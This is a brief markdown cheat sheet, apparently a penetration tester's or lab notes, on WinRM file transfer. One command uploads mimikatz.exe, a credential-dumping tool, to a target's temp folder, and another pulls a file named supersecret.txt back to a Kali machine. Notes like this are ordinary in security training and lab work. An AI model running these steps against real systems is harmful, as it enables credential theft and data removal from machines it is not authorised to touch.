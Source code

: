# Winrm options

1. Download to target
  - `upload /opt/Windows/exploits/executables/mimikatz.exe C:\temp\mimikatz.exe`
2. Upload to kali
   - `download C:\temp\supersecret.txt /opt/Juggernaut/JUGG-Backup/supersecret.txt`
